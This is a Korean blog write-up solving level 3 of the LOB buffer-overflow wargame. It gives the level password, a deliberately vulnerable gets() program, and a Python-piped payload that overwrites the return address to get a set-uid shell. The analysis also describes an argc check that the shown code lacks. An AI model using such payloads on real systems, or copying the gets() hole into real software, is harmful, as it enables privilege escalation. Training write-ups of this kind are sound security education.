 ```yaml
---
title: BOF/ LOB-level3(cobolt)
tags: LOB
---
```


LOB란 The Lord of the BOF의 약자로 Buffer over-flow를 연습해 볼 수 있는 해킹문제이다.    
총 20문제로 구성되어 있으며 각 문제를 격파하여 다음 레벨의 패스워드를 얻는 형식이다.  
문제를 격파하고 다음 레벨의 bash를 획득하였다면 my-pass로 패스워드를 확인할 수 있다.  

 [send me email](mailto:jewel7492@gmail.com) if you have any questions.

<!--more-->

---
### LOB Level 3(cobolt)
**ID : cobolt**  
**PASSWD : hacking exposed**         

```bash
$ bash2
```
풀이 시작 전에 bash2로 꼭 변경  
**bash는 \xff를 \x00(NULL)로 인식하여 제대로 문제를 풀 수 없다.**  

![그림1](/assets/LOB/level3/1.PNG)  
사용자 goblin의 권한의 goblin파일이 있음을 확인할 수 있다.  
**set-uid가 걸려있으므로 사용자 goblin의 권한으로 파일을 실행할 수 있다.**  
**goblin파일이 쉘을 실행시키도록 한다면 사용자 goblin의 쉘을 획득할 수 있다.**  

<br />
{% highlight C linenos %}  
/*
        The Lord of the BOF : The Fellowship of the BOF
        - goblin
        - small buffer + stdin
*/

int main()
{
    char buffer[16];
    gets(buffer);
    printf("%s\n", buffer);
}
{% endhighlight %}  

**goblin.c**

### 소스분석  
1. buffer의 크기가 16Byte이다.  
[LOB(level2)](https://limjunho.github.io/2019/11/03/LOB-level2(gremlin).html)**와 매우 유사하나 프로그램 실행 시 인자를 전달받는것이 아닌 실행 중에 인자를 전달 받는다.**  
2. argc가 2보다 작다면 "ergv error"을 출력하고 프로그램을 종료한다.  
**argc란? - 파라미터의 개수를 의미한다. 즉 main에 최소 2개이상의 인자를 전달하여야 한다.**  
3. buffer에 gets로 값을 입력받아 출력하는 소스  
**gets함수는 입력받을 데이터의 크기제한이 없기 때문에 입력받은 값이 16Byte보다 크다면 buffer-overflow가 발생하는 취약점이 있다.**  

### Solution  
**[LOB(level2)](https://limjunho.github.io/2019/11/03/LOB-level2(gremlin).html)와 같은방식으로 문제풀이 단, 다른 방식으로 값 전달**  


### Attack   

![그림2](/assets/LOB/level3/2.PNG)  
공격 성공.   
**python으로 값을 출력한 다음, 표준 입력을 표준 출력으로 바꿔주는 역할을 하는 cat명령어로 값을 넘겨주도록 한다.**  
**세미콜론은 한줄에 명령어를 여러개 입력할때 사용한다는 점에서 파이프와 비슷하지만 파이프의 경우 앞에서 나온 결과값을 뒤의 명령에서 사용한다는 점이 대조된다.**  
**그리고 나서 앞의 결과를 파이프가 goblin에게 넘겨준다.**  

**페이로드**
```bash
$ (python -c "print 'A'*20  + '\xc1\xfe\xff\xbf'"; cat) | ./goblin
```